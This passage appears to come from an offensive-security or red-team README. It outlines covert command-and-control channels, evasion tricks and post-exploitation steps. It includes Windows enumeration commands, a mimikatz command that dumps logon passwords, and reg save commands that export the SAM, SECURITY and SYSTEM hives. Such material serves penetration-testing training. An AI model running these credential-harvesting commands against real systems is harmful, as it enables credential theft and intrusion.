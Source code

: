 ### Communication Channels
- **HTTP/HTTPS**: Web-based communication
- **DNS**: DNS tunneling techniques
- **ICMP**: Covert channel communication
- **Social Media**: Twitter, LinkedIn, etc.
- **Cloud Services**: Dropbox, Google Drive, etc.

### Operational Security
- Domain fronting and CDN usage
- Certificate pinning bypass
- Traffic encryption and obfuscation
- Jitter and sleep timing
- Beacon randomization

## 🏃‍♂️ Post-Exploitation Techniques

### Information Gathering
```bash
# System enumeration
whoami /all
systeminfo
net user
net group "Domain Admins" /domain

# Network enumeration
ipconfig /all
arp -a
netstat -an
route print
```

### Credential Harvesting
```bash
# Memory dump analysis
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Registry credential extraction
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
reg save HKLM\SYSTEM system.save
```

### Lateral Movement
- **PsExec**: Service-based lateral movement
- **WMI**: Windows Management Instrumentation
- **PowerShell Remoting**: Remote PowerShell execution
- **SMB**: Server Message Block exploitation
- **RDP**: Remote Desktop Protocol

### Persistence Mechanisms
- **Registry Run Keys**: Startup persistence
- **Scheduled Tasks**: Time-based execution
- **Services**: Windows service persistence
- **WMI Events**: Event-based triggers
- **DLL Hijacking**: Library replacement
